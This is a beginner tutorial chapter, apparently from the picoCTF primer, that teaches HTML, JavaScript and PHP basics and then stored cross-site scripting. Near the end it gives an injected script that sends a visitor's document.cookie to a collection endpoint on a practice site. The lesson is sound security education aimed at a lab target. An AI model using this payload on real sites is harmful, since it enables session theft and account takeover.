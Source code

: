 

== Web Exploits

Web exploits are a nice starting point to dive into the world of hacking. Chances are that you are familiar with a web browser, so you will feel you are working on something that you already know!

=== Html

Before diving into Web Exploits, you need to understand how a website works. Many years ago, the web was used to visit static pages that did not have interactive features; they just showed information. To do a static page, it is enough to write some lines of HTML. What is HTML? First of all, it is not a programming language. Html means HyperText Markup Language, and we use it to determine the font size, colors, margins, or similar features in a web page. When an html file is accessed in a browser like Firefox, Chrome or whatever browser you like, the browser presents the text according to the html on it. Your browser can access an html file locally. Locally means that the file could be in your laptop or file system. In contrast, it could access the file remotely through the Internet. Let’s see an example of creating a simple html and access it locally:


. On your computer, create a folder called “picoexample” and then, inside that folder, create a text file and name it “myFirstPage.html”. You can do this on Notepad on Windows, Textedit on Mac, or any text editor from Linux. It is important that the extension is “.html”. It cannot be ”.html.txt” or something that is not exactly “.html”. If you don’t see the extension in your operating system, this is a good opportunity too google how to make it appear to be able to modify it. Remember, for this simple obstacles that might appear along the way, google is the answer.

. Edit the content in a text editor and write: Hello World!

. Save the file

. Open the file in any browser. To do that, you can right click on the file, and then select “open with” and choose the browser you want. You should see a page like the following:


[.text-center]
image:images/image13.png[image,width=624,height=496]

. Now, in the text editor, modify the content of the file and replace the text by: <b>Hello World!</b>
. Save the file on the text editor. Then, open the file in the browser again, or you can simply click refresh on your browser. Since it already has opened the file, you will see the message in bold, in page similar to this:

[.text-center]
image:images/image27.png[image,width=624,height=496]


You just created a page with a very simple HTML that made your message appeared in bold. Note that <b> is the opening tag, </b> is the closing tag. Analyze the difference between the opening and closing tag. What do you see? The closing tag is usually the same as the opening tag, but you include “/” like we just did. We just used an html tag to tell the browser we want some specific text in bold. Html is just a bunch of tags that allow us to do similar things.

Now let’s make a page with more fields so you can get a sense of more tags and of the structure of a bigger page. Use the following HTML code to replace the content of the file you are editing:




[source,html]
<html>
<header>
   <title>This is a picoCTF html Example</title>
</header>
<body>
   <h1>This is a Heading</h1>
   <h2>This is a smaller Heading</h2>
   <p>This is a paragraph.</p>
   The following is an image:<br>
   <img src="picologo.png" />
</body>
</html>


Now, as we were doing before, save the file in the text editor and click refresh on the browser. You probably see something like this:

[.text-center]
image:images/image17.png[image,width=624,height=496]

If you read the html code and try to analyze its content, you would realize the following:

* The title shown in that tab of the browser “This is a picoCTF html Example”, appears there because you put that text inside in the <title></title> tags.
* <h1> Is used to create a big heading
* <h2> creates a heading a little smaller than <h1>
* The <header> tags are used to group introductory content, in this case the title, but if you remove this tag, you will not see much change in our page. Do the experiment of removing it. If you only remove the opening or closing tag, that would cause an html error, so make sure to delete the opening tag and closing tag.
* The <body> tags are used to group the main content of the page. Also, if you remove them, you will not see much change in our page because we have just a few things. However, in several cases you might break a page completely if you remove a tag without proper care.

NYou must have noted the <img> tag is not showing any image as it should. Why? Let’s analyze the element img:

[source,html]
<img src="picologo.png" />

First you see there is not opening or closing tag, there is just one tag with the slash at the right hand side. This is ok for an image. As you can see, it has an *attribute* called ”src”, which means source. We are assigning to “src” the value “picologo.png”. Our html is going to try to access a file called “picologo.png” in the same folder as “myFirstPage.html” is contained, which is the folder we name at first “picoexample”. There is no image called “picologo.png”, so the browser has nothing to show. Copy and paste an image to the folder and name it “picologo.png”. The extension of the image has to be ”.png”. If you have an image with a different extension, you can just use the extension you need in the "src" attribute in your html. For example, if the extension of the image you have is ".jpg" you can simply replace

[source,html]
<img src="picologo.png" />

by

[source,html]
<img src="picologo.jpg" />

 If you successfully created the image in the folder, and refresh the browser, you will see the following, of course, with your own custom image:

[.text-center]
image:images/image22.png[image,width=624,height=496]

A fundamental part of web site are the links. The link tag is *<a>*, the following is an example of a link directed to google:

[source,html]
<a href="http://google.com" > Go to google! </a>

Use that element and put it in your code to make a link to the web site you want. Now practice by adding more html tags and images in your page! This is a reference in which you can find more html tags:

https://www.w3schools.com/tags/[https://www.w3schools.com/tags/, window="_blank"]


=== JavaScript

To make pages more interactive JavaScript is commonly used. JavaScript is a programming language! We can do algorithms using it. JavaScript is executed in your browser. For example, when you visit a website, the JavaScript code is downloaded along the HTML and it only executes once it is loaded in your browser. When you visit a page, you are downloading an html file and your browser interprets the tags and prints the text and images as we learned before. This image illustrates that process:

[.text-center]
image:images/image26.png[image,width=624,height=357]

If that file happens to contain JavaScript, your browser will execute it. Let’s look at an example. In the same folder “picoexample”, create a file called “myFirstJS.html“ using a text editor. Then, put the following content in the file:

[source,html]
<html>
    <header>
        <title>This is a picoCTF JS Example</title>
        <script>
            alert("Hello picoCTF");
        </script>
    </header>
    <body>
        <h1>JavaScript example</h1>>
    </body>
</html>


Save the file. As soon as you open the page, you will see an alert showing “Hello picoCTF”, something like this:

[.text-center]
image:images/image5.png[image,width=624,height=496]

If you analyze the file, you will note that the magic is happening in this element:

[source,html]
<script>
    alert("Hello picoCTF");
</script>

Whatever you put inside the tags “<script> </script>” will be tried to execute by the browser as JavaScript. Since JavaScript is a programming language, we should be able to do some arithmetic. Replace the string “Hello picoCTF” by an arithmetic operation, like 8*8, like this:

[source,html]
<script>
    alert(8*8);
</script>

Note that we only use quotes when we want to use a string. In arithmetic operations we don’t use quotes. Save the file, and refresh the browser as we always do. You should see the following:

[.text-center]
image:images/image18.png[image,width=624,height=496]

Click Ok in the alert message to make it go away. Anything you write in JavaScript or html, will be visible for any user that access your page in a browser. To see the html and Javascript code in your browser, right click the page and then “View Page Source”

[.text-center]
image:images/image10.png[image,width=402,height=296]

You will see the javascript code you just wrote:

[.text-center]
image:images/image6.png[image,width=474,height=376]

This is a very important thing! Never put a secret in your javascript code or html. If someone does it, that will be a vulnerability in your page. As a hacker, you can try to look for secrets on the html of a page you want to exploit.

Now let’s use some more elaborated code. We are going to make a page that adds two numbers input by the user and shows the result in an alert. We will explain its code in detail later. The code is the following:

[source,html]
<html>
    <header>
        <title>This is a picoCTF JS Example</title>
        <script>
            function myFunctionSum(){
                var number1 = document.getElementById("number1").value;
                var number2 = document.getElementById("number2").value;
                var result = number1 + number2;
                alert(result);
            }
        </script>
    </header>
    <body>
        <h1>JavaScript example to add2 numbers</h1>
        Input the first number<br> 
        <input type="text" id="number1"  ><br>
        Input the second number<br> 
        <input type="text" id="number2" ><br>
        <button onclick="myFunctionSum()"> Show alert! </button>
    </body>
</html>

Put it on a text file, save it, and open it on a browser as usual. You should see this:

[.text-center]
image:images/image3.png[image,width=492,height=390]

If you put the numbers in each text field, and click “show alert!”, you will see the alert with the result. For this example let’s input 4 and 2 in the text fields, you should see:

[.text-center]
image:images/image23.png[image,width=510,height=405]

Now that you know what the page does, let’s analyze the new lines of the code. In this line we have an input tag:

[source,html]
<input type="text" id="number1" ><br>

As you can see, it is of type text, and it has an “id” with the value of “number1”. The value of the “id”, in this case "number1", is something we arbitrarily define to be able to access the content of this text input in JavaScript. This line:

[source,html]
<button onclick="myFunctionSum()"> Show alert! </button>

Is responsible for calling the function “myFunctionSum()” when the button is clicked. A function is just a piece of code that we can define, so whenever is called it executes the code inside. In this case, we named the function "myFunctionSum", but is is possible to give it any name. The function has to be defined inside the script tags. Try to read the function and understand at a general level what each line is doing:

[source,javascript]
function myFunctionSum(){
    var number1 = document.getElementById("number1").value;
    var number2 = document.getElementById("number2").value;
    var result = number1 + number2;
    alert(result);
}

Challenge! Modify the file to multiply the two numbers. When you are done with that, include a new third input number to multiply three different numbers! At this point you should be able to do it on your own. Be careful with the syntax, remember that a single character wrong might break the whole code.

=== Server code

As we said previously, javascript is executed only in the browser. But, what if you want to do calculations and store data in the remote server? For example, when you login into a Website, your user and password has to be verified on the server. The password is stored in the server and should not travel outside of it for the sake of security. If you would verify a password on JavaScript, you would be able to see it on your browser in the same way you can see any JavaScript, and that would be very insecure. There are several programming languages that can be executed on the server, for instance:

* Python
* Java
* PHP
* C
* C Sharp
* And many more...

For our examples, we will begin using PHP, not because we think is a great language, but because a huge amount of websites on the Internet use it and it is very easy to learn and deploy. In any case, as a hacker, you would generally have to learn all the languages you can because different Websites are made on different languages, as well as CTF challenges that try to simulate real life! The more a language is used, the more likely you will have to attack a website made with it. However, the vulnerabilities we will be explaining can happen in any programming language, because they are not a fault of the language, but a fault of the programmer that did the website.

Suppose you have a text file named hello.php, containing:

[source,html]
<b>Hello World!</b>
<script> alert('Hello World from JavaScript!'); </script>
<?php
    echo "Hello World from PHP!";
?>

Note that in a file with the extension .php you can mix html, javascript, and PHP code! If the server supports PHP, everything inside *<?php ?>* will be understood as PHP code and run by the server, not by the browser.

Look at the following image carefully to understand what happens:

[.text-center]
image:images/image36.png[image,width=624,height=345]

If you open a file with that content on your laptop, the PHP code will not be executed, because your laptop is not a PHP server (if you have not made it one). So, to execute PHP you need to make your laptop a server. But for the time being, we can use the following:



https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro[https://www.w3schools.com/php/phptryit.asp?filename=tryphp_intro, window="_blank"]

Access that link, and you will see at the right a file with html and PHP code, that when is run, prints "My first PHP script!". Let's modify the code to additionally print the date, so below the line

[source,php]
echo "My first PHP script!";

Add the line

[source,php]
echo date("H:i:s");

According to what you have learned so far, that time is from the clock on your computer? Or the time of the clock in the server?

...PHP is server side code, so that time is from the clock on the server!

Now let’s make an experiment, and add another line with this php code:

[source,php]
echo "<script> alert('Hello World from JavaScript!'); </script>";

That string echoed in PHP has javascript code. Is the JavaScript alert shown? What happened? As expected, anything printed on php, will become an integral part of the html downloaded file, so the javascript will be executed. This opens the door for the famous attack of Cross Site Scripting (XSS).

=== Cross Site Scripting (XSS)

After you Login into a Website, the Website needs a way to know that any request coming from your browser is coming from a user that previously logged in, without the need to send the user-password again. To do that, the website can send to your browser a secret random value after login. That value is generally stored in a cookie or in javascript local storage. For this example, let’s pretend it is stored in a cookie, which is simply a variable in your browser that can retain data. If a Website sets a specific cookie in your browser, your browser automatically re-sends that cookie in each request to the website. If a Website only uses cookies to retain a session, and if a hacker can steal the authentication cookie from you, they could pretend to be you! Note that only using cookies for autentication will open the possibility of Cross Site Request Forgery (CSRF), but this will be explained later, for now let’s focus on XSS.

Suppose you are a hacker in a social network. When you create your account, instead of using your name, you input javascript code. When a friend of yours visit your profile, the WebSite will try to print your name, but your name is actually javascript code, so the browser might execute that javascript code. In that way, you could execute your own javascript on your friend’s browser!

When you get to execute javascript in someone else’s browser, you can read their authentication data, which can be a secret value placed on a cookie or javascript local storage after a user logs in. At that point, your friend’s account would probably be compromised!

An important skill to have, is to use the browser debugger. For this explanation we will use Firefox. You can download an install Firefox here:

https://www.mozilla.org/en-US/firefox/new/[https://www.mozilla.org/en-US/firefox/new/, window="_blank"]

Note: If you really don’t want to use Firefox, every browser has a debugger, so you just have to google how to use it. It will not be that different.

Using Firefox, input your name and some text in the description in the following link:

http://primer.picoctf.com/vuln/web/sign_up.php[http://primer.picoctf.com/vuln/web/sign_up.php, window="_blank"]

Open another tab and visit the following link. You should see your name and description:

http://primer.picoctf.com/vuln/web/tableusers.php[http://primer.picoctf.com/vuln/web/tableusers.php, window="_blank"]


Now, in the Firefox Menu, click “Web Developer” and then click “Debugger”. You should see a pane like the following:

[.text-center]
image:images/image15.png[image,width=624,height=446]

In that pane, click “storage”. At the left click “cookies” and click the domain you are currently on. You will see a cookie that has your name in the value!

[.text-center]
image:images/image25.png[image,width=624,height=370]

You can only see your cookie. Other users would see their cookie with their name. For this experiment, you will steal your own cookie. But with the same method, you could steal the cookie of someone else.

For now, access this link again:

http://primer.picoctf.com/vuln/web/sign_up.php[http://primer.picoctf.com/vuln/web/sign_up.php, window="_blank"]

Create a new user that has your name, but instead of the description has the following code:

[source,html]
<script> alert('I just injected Javascript!'); </script>

If you navigate this link again, you will see your javascript code triggered:

http://primer.picoctf.com/vuln/web/tableusers.php[http://primer.picoctf.com/vuln/web/tableusers.php, window="_blank"]

Like this:

[.text-center]
image:images/image16.png[image,width=624,height=370]

You just verified that you can inject javascript in the website. Now we are going to inject javascript that will steal the cookie. Create another user in the same link for creating users:

http://primer.picoctf.com/vuln/web/sign_up.php[http://primer.picoctf.com/vuln/web/sign_up.php, window="_blank"]

But now, put this JavaScript code in the description:

[source,html]
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>
<script>
$.get(
    "http://primer.picoctf.com/vuln/web/insert.php",
    {cookie : document.cookie, hackername : 'YourName'},
    function(data) {
        alert("I just stole the cookie!");
    }
);
</script>

Let’s understand the code. The first line, imports a library called jquery: 

[source,javascript]
<script src="https://code.jquery.com/jquery-3.4.1.min.js"> </script>

A library is simply a set of functions that allow us to do some actions in an easier manner. In this case, it allow us to do requests and send data from javascript to a server. Then, we are just sending the cookie to a remote service that is made to receive cookies from this exercise. That service receive two variables: “cookie” and “hackername”. The value of the variable cookie will be “document.cookie”. Here, instead of “=”, we use “:” to assign a value to a variable. Using document.cookie you access the cookies from javascript, so that should contain the cookie you want to steal. The variable hackername simply has  a name assigned. You could replace the string “YourName” with your actual name. Remember that a string has to be inside quotes in javascript.

The function:

[source,javascript]
function(data){
    alert("I just stole the cookie!");
}

Is simply a function that will be executed after the request is sent to the service, and will alert a message.

Now visit this site again:

http://primer.picoctf.com/vuln/web/tableusers.php[http://primer.picoctf.com/vuln/web/tableusers.php, window="_blank"]

When a user visits that site is when the javascript is executed and the cookie is stolen. You should see the message:

[.text-center]
image:images/image14.png[image,width=624,height=380]

If you injected scripts previously, all those scripts are stored in the web site and will be executed in the order you injected them when the page that prints them is visited.

Now you should be able to see the cookie you stole here:

http://primer.picoctf.com/vuln/web/tablestolen.php[http://primer.picoctf.com/vuln/web/tablestolen.php, window="_blank"]

[.text-center]
image:images/image21.png[image,width=624,height=380]

At this point you should have some understanding on how a website works. You are ready to begin to do more web challenges on the picoCTF!

